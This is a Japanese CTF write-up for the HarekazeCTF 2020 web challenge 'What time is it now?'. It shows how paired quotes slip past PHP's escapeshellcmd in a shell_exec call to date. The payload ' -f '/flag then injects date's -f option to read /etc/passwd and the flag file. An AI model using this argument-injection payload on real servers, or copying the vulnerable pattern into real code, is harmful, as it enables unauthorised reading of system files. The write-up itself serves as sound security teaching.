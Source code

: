 # What time is it now?:Web:123pts
そうねだいたいね…  
[http://harekaze2020.317de643c0ae425482fd.japaneast.aksapp.io/what-time-is-it-now/](http://harekaze2020.317de643c0ae425482fd.japaneast.aksapp.io/what-time-is-it-now/)  

---

It's about ...  
[http://harekaze2020.317de643c0ae425482fd.japaneast.aksapp.io/what-time-is-it-now/](http://harekaze2020.317de643c0ae425482fd.japaneast.aksapp.io/what-time-is-it-now/)  

---

Attachments: [what-time-is-it-now.zip](what-time-is-it-now.zip)  

# Solution
URLにアクセスすると時間を表示してくれるサイトのようだ。  
日付とUNIX時間にも表示を変更できる。  
What time is it now?  
[site1.png](site/site1.png)  
ソースを見ることもできるようなので(配布されてもいるが)、見ると以下の部分が時間を表示しているようだ。  
```html
<?php
if (isset($_GET['source'])) {
  highlight_file(__FILE__);
  exit;
}

$format = isset($_REQUEST['format']) ? (string)$_REQUEST['format'] : '%H:%M:%S';
$result = shell_exec("date '+" . escapeshellcmd($format) . "' 2>&1");
?>
~~~
          <h1 class="jumbotron-heading"><span class="text-muted">It's</span> <?= isset($result) ? $result : '?' ?><span class="text-muted">.</span></h1>
          <p>
            <a href="?format=%H:%M:%S" class="btn btn-outline-secondary">What time is it now?</a>
            <a href="?format=%Y-%m-%d" class="btn btn-outline-secondary">What is the date today?</a>
            <a href="?format=%s" class="btn btn-outline-secondary">What time is it now in UNIX time?</a>
          </p>
~~~
```
`shell_exec`といういかにもな関数が呼ばれているが、`escapeshellcmd`でサニタイズされているようだ。  
これでは特殊記号が使えないので、パイプでつなぐことや外部にファイルを送信することはできない。  
```bash
$ php -a
php > echo escapeshellcmd("$'();<>\\");
\$\'\(\)\;\<\>\\
```
ところが`escapeshellcmd`はとんでもない関数で、シングルクオートやダブルクオートが対応している場合サニタイズされない。  
```bash
$ php -a
php > echo escapeshellcmd("''");
''
php > echo escapeshellcmd('""');
""
```
これによってdateのシングルクオートを閉じることができた。  
オプションなどはつけられるが、ファイルの読み取りなどはできそうにない。  
dateコマンドのヘルプを表示してみる。  
```bash
$ date --help
使用法: date [OPTION]... [+FORMAT]
または: date [-u|--utc|--universal] [MMDDhhmm[[CC]YY][.ss]]
Display the current time in the given FORMAT, or set the system date.

Mandatory arguments to long options are mandatory for short options too.
  -d, --date=STRING          display time described by STRING, not 'now'
      --debug                annotate the parsed date,
                              and warn about questionable usage to stderr
  -f, --file=DATEFILE        like --date; once for each line of DATEFILE
  -I[FMT], --iso-8601[=FMT]  output date/time in ISO 8601 format.
                               FMT='date' for date only (the default),
                               'hours', 'minutes', 'seconds', or 'ns'
                               for date and time to the indicated precision.
                               Example: 2006-08-14T02:34:56-06:00
  -R, --rfc-email            output date and time in RFC 5322 format.
                               Example: Mon, 14 Aug 2006 02:34:56 -0600
      --rfc-3339=FMT         output date/time in RFC 3339 format.
                               FMT='date', 'seconds', or 'ns'
                               for date and time to the indicated precision.
                               Example: 2006-08-14 02:34:56-06:00
  -r, --reference=FILE       display the last modification time of FILE
  -s, --set=STRING           set time described by STRING
  -u, --utc, --universal     print or set Coordinated Universal Time (UTC)
      --help     この使い方を表示して終了する
      --version  バージョン情報を表示して終了する
~~~
```
`-f`でファイルが読み取れるようである。  
`' -f '/etc/passwd`をクエリパラメータにセットしてみると、ファイルが読み取れた。  
What time is it now?(/etc/passwd)  
[site2.png](site/site2.png)  
配布ファイル内のDockerfileに以下の記述がある。  
```text:Dockerfile
FROM php:7.4-apache

ADD public/index.php /var/www/html/

RUN chmod -R 755 /var/www
RUN chown root:root /var/www

RUN echo "HarekazeCTF{<censored>}" > "/flag"
RUN chmod -R 755 /flag*
```
/flagを読み取ればよいようだ。  
`' -f '/flag`をクエリパラメータにセットする。  
flag  
[flag.png](site/flag.png)  
flagが読み取れた。  

## HarekazeCTF{1t's_7pm_1n_t0ky0}